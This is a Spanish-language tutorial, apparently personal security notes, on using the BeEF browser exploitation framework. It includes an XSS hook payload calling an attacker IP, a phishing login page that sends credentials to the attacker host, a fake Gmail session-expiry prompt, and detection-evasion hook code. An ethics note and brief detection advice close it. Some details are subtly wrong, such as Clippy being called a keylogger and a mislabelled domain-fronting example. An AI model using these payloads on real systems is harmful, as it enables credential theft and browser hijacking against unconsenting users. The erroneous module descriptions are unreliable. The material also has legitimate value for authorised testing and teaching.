

# 🐂 BeEF - Browser Exploitation Framework
---

## 🎯 Introducción

>[!info] ¿Qué es BeEF?
>**BeEF (Browser Exploitation Framework)** es una herramienta de penetration testing enfocada en explotar vulnerabilidades web a través del navegador del cliente. Permite controlar navegadores web comprometidos y realizar diversas técnicas de explotación desde el lado del cliente.

### ¿Para qué sirve?
- **Post-explotación web**: Una vez que se compromete un navegador
- **Social Engineering**: Crear ataques dirigidos a usuarios
- **Demonstración de vulnerabilidades**: Mostrar el impacto real de XSS
- **Red Team Operations**: Simular ataques APT reales

### Contextos de uso
- Auditorías de seguridad web
- Pruebas de penetración
- Educación en ciberseguridad
- Evaluación de la conciencia de seguridad del usuario

---

## ⚙️ Instalación y Configuración

### Instalación en Kali Linux
```bash
# BeEF viene preinstalado en Kali Linux
sudo apt update
sudo apt install beef-xss

# Instalar dependencias adicionales
sudo gem install bundler
```

### Configuración inicial
```bash
# Navegar al directorio de BeEF
cd /usr/share/beef-xss

# Configurar credenciales (archivo config.yaml)
sudo nano config.yaml
```

>[!tip] Configuración básica
>- Usuario por defecto: `beef`
>- Contraseña por defecto: `beef`
>- Puerto web: `3000`
>- Puerto hook: `3000/hook.js`

---

## 🚀 Guía Práctica de Uso

### Sintaxis básica
```bash
# Iniciar BeEF
sudo beef-xss

# Iniciar con configuración específica
sudo beef-xss -c /path/to/config.yaml
```

### Parámetros y opciones comunes

| Parámetro | Descripción | Ejemplo |
|-----------|-------------|---------|
| `-c` | Archivo de configuración personalizado | `beef-xss -c custom.yaml` |
| `-x` | Deshabilitar extensiones | `beef-xss -x` |
| `-v` | Modo verbose | `beef-xss -v` |
| `-d` | Modo debug | `beef-xss -d` |

### Flujo de trabajo típico



---

## 💻 Ejemplos Prácticos

### Ejemplo 1: Configuración básica y primer hook

>[!example] Escenario básico
>Comprometer un navegador mediante XSS stored en una aplicación web vulnerable

```bash
# 1. Iniciar BeEF
sudo beef-xss

# 2. Acceder al panel de administración
# http://localhost:3000/ui/panel
# Usuario: beef / Contraseña: beef
```

**Payload para inyectar:**
```html
<script src="http://[TU_IP]:3000/hook.js"></script>
```

### Ejemplo 2: Ataque de phishing interno

>[!example] Crear una página de phishing
>Redirigir a los usuarios a una página falsa para capturar credenciales

```javascript
// Módulo: Create Invisible Iframe
// URL objetivo: http://interno.empresa.com/login

// Configuración del módulo
{
  "url": "http://[TU_IP]/phishing.html",
  "width": "100%",
  "height": "100%"
}
```

**Página de phishing (phishing.html):**
```html
<!DOCTYPE html>
<html>
<head>
    <title>Login Corporativo</title>
</head>
<body>
    <form action="http://[TU_IP]:3000/capture" method="POST">
        <input type="text" name="username" placeholder="Usuario">
        <input type="password" name="password" placeholder="Contraseña">
        <button type="submit">Iniciar Sesión</button>
    </form>
</body>
</html>
```

### Ejemplo 3: Keylogger y captura de información

>[!example] Capturar pulsaciones de teclado
>Instalar un keylogger en el navegador comprometido

```bash
# En el panel de BeEF:
# 1. Seleccionar navegador comprometido
# 2. Ir a Commands > Input
# 3. Ejecutar "Pretty Theft"

# Configuración Pretty Theft:
{
  "sitename": "Gmail",
  "message": "Su sesión ha expirado. Ingrese sus credenciales:"
}
```

---

## 🛠️ Módulos Principales

### Módulos de Información
| Módulo | Función | Uso |
|--------|---------|-----|
| **Get Cookie** | Captura cookies | Obtener tokens de sesión |
| **Get Page HTML** | Obtiene HTML completo | Análisis de contenido |
| **Detect Software** | Detecta software instalado | Reconocimiento |

### Módulos de Explotación
| Módulo | Función | Uso |
|--------|---------|-----|
| **Pretty Theft** | Phishing convincente | Captura credenciales |
| **Clippy** | Keylogger avanzado | Captura pulsaciones |
| **Internal Network Fingerprinting** | Escaneo de red interna | Reconocimiento de LAN |

### Módulos de Persistencia
| Módulo | Función | Uso |
|--------|---------|-----|
| **Create Invisible Iframe** | Marco invisible | Mantener conexión |
| **Man-in-the-Browser** | Interceptar tráfico | Manipular requests |

---

## 🎯 Tips y Buenas Prácticas

>[!tip] Optimización de uso
>- **Usa HTTPS**: Configura certificados SSL para evitar detección
>- **Cambia puertos**: No uses los puertos por defecto
>- **Personaliza hooks**: Modifica el código JS para ser menos detectable
>- **Rotación de IP**: Usa múltiples direcciones IP si es posible

>[!warning] Errores comunes
>- **No configurar firewall**: Asegúrate de que los puertos estén abiertos
>- **Hooks visibles**: El hook puede ser detectado en el código fuente
>- **Falta de persistencia**: Los hooks se pierden al recargar la página
>- **Detección por antivirus**: Algunos AV detectan los módulos de BeEF

### Configuración avanzada

```yaml
# config.yaml - Configuración personalizada
beef:
    version: '0.5.3.0'
    debug: false
    crypto_default_value_length: 80
    
http:
    debug: false
    host: "0.0.0.0"
    port: "3000"
    
https:
    enable: true
    host: "0.0.0.0"
    port: "3443"
```

### Bypass de detección

>[!tip] Técnicas de evasión
>```javascript
>// Hook ofuscado
>var s=document.createElement('script');
>s.type='text/javascript';
>s.src='http://[IP]:3000/hook.js';
>document.head.appendChild(s);
>
>// Hook con dominio legítimo (domain fronting)
>var s=document.createElement('script');
>s.src='https://cdn.jquery.com/beef.js';
>document.head.appendChild(s);
>```

---

## 🔒 Consideraciones de Seguridad

>[!warning] Uso ético
>- **Solo en entornos autorizados**: Nunca usar sin permiso explícito
>- **Documentar todo**: Mantener registros de las pruebas realizadas  
>- **Limpiar después**: Remover hooks y payloads tras las pruebas
>- **Informar vulnerabilidades**: Reportar hallazgos de manera responsable

### Detección y mitigación

>[!info] Cómo detectar BeEF
>- Monitorear conexiones a puertos 3000/3443
>- Buscar archivos `hook.js` en el tráfico
>- Analizar requests POST sospechosos
>- Implementar CSP (Content Security Policy)

---

## 📚 Recursos Adicionales

- **Documentación oficial**: Framework BeEF GitHub
- **Módulos personalizados**: Desarrollo de extensiones
- **Integración con Metasploit**: Combinar con otras herramientas
- **OWASP WebGoat**: Entorno de práctica seguro